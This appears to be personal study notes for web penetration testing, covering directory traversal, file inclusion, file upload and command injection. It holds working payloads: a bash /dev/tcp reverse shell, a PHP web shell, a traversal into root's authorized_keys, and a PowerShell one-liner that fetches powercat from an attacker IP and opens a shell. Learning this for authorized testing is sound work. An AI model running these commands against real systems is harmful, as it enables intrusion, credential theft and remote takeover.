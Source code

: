 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell

## Local File Inclusion LFI
- Less common
- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```

## PHP Wrappers
- some uncommon method

    ``` php://filter ```

    make command base64 ``` <?php echo system($_GET["cmd"]);?> ```

    insert ``` data:// ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```

# File Upload Vuln
 
## w/ Executable Files
- Prepare a file that can run CMD
- Reverse shell
- file type exclusion e.g. php -> pHP
- aspx -> mspx  


## w/o Executable Files
- Generate SSH key 

    ``` ssh-keygen ```

- Directory traversal for http request header
  
    Edit filename

    ``` ../../../../../root/.ssh/authorized_keys ``` : storing ``` 

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer

- run ``` ssh -i fileup root@{ip} ```

# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
